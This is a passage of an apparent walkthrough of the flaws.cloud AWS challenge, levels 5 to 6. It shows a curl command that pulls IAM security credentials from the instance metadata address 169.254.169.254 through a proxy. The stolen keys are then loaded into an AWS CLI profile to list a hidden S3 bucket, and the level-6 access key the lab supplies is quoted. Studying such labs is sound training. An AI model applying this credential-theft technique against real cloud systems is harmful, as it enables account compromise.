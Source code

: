 There is a vey valuable hint: __*instance metadata can be accessed via the 169.254.169.254 IP address*__. This can be used for example to retrieve security credentials:

```bash
~ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
{
  "Code" : "Success",
  "LastUpdated" : "2019-11-02T11:09:21Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA6GG...",
  "SecretAccessKey" : "dhBep...",
  "Token" : "AgoJb3...",
  "Expiration" : "2019-11-02T17:11:48Z"
}
```

We’ll create a new profile with the *AccessKeyId* and *SecretAccessKey* and access the level-6 bucket. Note that *we also need to add the Token to the ```~/.aws/credentials``` file* like this:

```bash
[level-5]
aws_access_key_id = ASIA6GG...
aws_secret_access_key = dhBep...
aws_session_token = AgoJb3...
```

Now we can successfully list the content of the bucket: 

```bash
~ aws --profile level-5 s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
                           PRE ddcc78ff/
2017-02-27 02:11:07        871 index.html
```

So the hidden folder linking to level 6 is *ddcc78ff*:

```bash
~ aws --profile level-5 s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/
2017-03-03 04:36:23       2463 hint1.html
2017-03-03 04:36:23       2080 hint2.html
2017-03-03 04:36:25       2782 index.html
```

## Level 6

<blockquote>
  <p>For this final challenge, you're getting a user access key that has the SecurityAudit policy attached to it. See what else it can do and what else you might find in this AWS account.<br/>
Access key ID: AKIAJFQ6E7BY57Q3OBGA <br/>
Secret: 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
  </p>
</blockquote>

So for this level we’re getting a user access key that has the ```SecurityAudit``` policy attached to it:
